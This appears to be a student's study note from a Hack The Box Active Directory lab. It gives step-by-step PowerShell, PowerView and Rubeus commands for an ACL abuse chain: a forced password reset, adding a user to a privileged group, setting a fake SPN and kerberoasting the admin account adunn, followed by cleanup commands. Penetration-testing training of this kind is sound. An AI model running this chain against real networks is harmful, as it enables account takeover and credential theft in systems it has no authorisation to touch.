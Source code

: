 ```yaml
---
description: From previous Section, we will continue to do attack
---
```


# ACL Abuse Tactics

<figure><img src="../../.gitbook/assets/ertytr.png" alt=""><figcaption></figcaption></figure>

* First we will use user `wley` to change password of `damundsen`
* then using `damundsen` we will use `Generic Write` right to add user we control to `Help Desk Level 1` group
* User of `Help Desk Level 1` group is member of `Info Tech` group and member of `Info Tech` group have generic all right over user `adunn`
* Thus we will take control of user `Adunn`

we are currently logged in as user `htb-student` and have credential of `wley` , so we are authenticating as user `wley` by

* `PS C:\\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force` → creating $secpassword variable which stores passoword of wley
* `PS C:\\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\wley', $SecPassword)` → creating $cred variable which stores PSCredential object which contains securely stored user credentials. Because later -Credential parameter expects a PSCredential object not a plain text string.
* `PS C:\\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` → creating variable to store password for damundsen user

import powerview and then

* `PS C:\\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` → changing password of user damundsen
* `PS C:\\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\damundsen', $damundsenPassword)` → creating PSCredential object which contains creds of user damundsen

Before adding user damundsen to `Help Desk Level 1` Group, lets confirm our user is not a member of the target group

* `PS C:\\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`

Now lets add to `Help Desk Level 1` group

* `PS C:\\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`
* `PS C:\\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` → confirming damundsen was added to the group

If for some reason we donot have permission to interrupt the admin account `adunn`

we can create a fake SPN, then kerberoast to obtain TGS ticket and hopefully crack the hash offline .

* `PS C:\\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` → creating a fake SPN
* `PS C:\\htb> .\\Rubeus.exe kerberoast /user:adunn /nowrap`

Kerberoasting with Rubeus

| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose`                | PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host.                         |
| --------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to remove a specific user (`damundsent`) from a specific security group (`Help Desk Level 1`) from a Windows-based host. |
| `ConvertFrom-SddlString`                                                                                  | PowerShell cmd-let used to covert an `SDDL string` into a readable format. Performed from a Windows-based host.                              |
